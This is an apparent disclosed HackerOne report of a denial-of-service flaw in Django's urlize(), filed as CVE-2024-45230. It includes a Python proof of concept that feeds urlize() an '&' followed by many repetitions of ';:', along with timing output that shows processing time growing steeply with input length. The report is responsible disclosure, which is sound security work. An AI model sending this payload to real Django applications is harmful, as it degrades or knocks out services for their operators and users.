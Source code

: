 # CVE-2024-45230 - Potential denial-of-service in django.utils.html.urlize() (Another pattern)

## Report Details
- **Report ID**: 2881639
- **URL**: https://hackerone.com/reports/2881639
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-12-04T21:10:08.366Z
- **Disclosed**: 2025-02-05T19:54:31.261Z

## Reporter
- **Username**: mprogrammer
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
This one is similar to https://hackerone.com/reports/2795558, but I found the DoS vulnerability by putting an ampersand character beside repeated `;:` characters.
This is the PoC that I used:

```
import django.utils.html
from time import time

print("=== django.utils.html.urlize('&' + ';:' * n) ===")
for i in range(0,600000, 40000):
    start = time()
    pattern = ';:'
    PAYLOAD = '&' + pattern * i
    django.utils.html.urlize(PAYLOAD)
    print(len(PAYLOAD), "\t", time() - start)
input("")
```
```
=== django.utils.html.urlize('&' + ';:' * n) ===
2      0.0
80002      0.8933408260345459
160002      3.4347267150878906
240002      7.70803427696228
320002      14.04338812828064
400002      23.33271551132202
480002      34.01262950897217
560002      50.18527007102966
640002      66.2295835018158
720002      84.84082579612732
800002      105.49288773536682
880002      125.54152035713196
960002      155.80166292190552
1040002      187.27826762199402
```

## Impact

Reduced performance or Denial of Service was possible if `django.utils.html.urlize` was used without strict limits on a large user string.

## Attachments
No attachments
